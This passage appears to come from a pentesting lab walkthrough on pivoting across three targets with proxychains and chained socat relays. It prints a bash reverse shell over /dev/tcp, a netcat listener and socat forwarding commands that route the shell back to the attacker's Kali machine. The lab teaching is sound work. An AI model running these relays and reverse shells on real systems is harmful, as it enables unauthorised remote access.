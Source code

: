 <div align="left">

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

</div>

of course, to see webpage via browser we need to reconfigure proxy settings or foxy proxy.

Very good, we can access to target 3 using: `proxychains ssh ubuntu@30.30.30.4`

But we've always the same problem, we can't reach out kali from target 3 and spawn a rev shell.

We can solve it establish a new session of socat on target 2, which will establish a connection starting from machine 2, passing through 1, until arriving at kali.

<pre class="language-bash"><code class="lang-bash">#Target 2
./socat tcp-l:3333,fork,reuseaddr tcp:20.20.20.7:4444 #tcp-l: listening port, send data to tcp:attacker:port
<strong>#Target 1
</strong>./socat tcp-l:4444,fork,reuseaddr tcp:10.10.10.4:2222  #tcp-l: listening port, send data to tcp:attacker:port
</code></pre>

### Reverse Shell

{% embed url="https://www.revshells.com/" %}

We create a  bash reverse shell using target 2 IP machine (on the same subnet of target 3), and listening on kali machine using netcat:

```bash
#Kali
nc -nvlp 2222 #same port of socat on target 1
#Target 3
sh -i >& /dev/tcp/30.30.30.5/3333 0>&1
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>
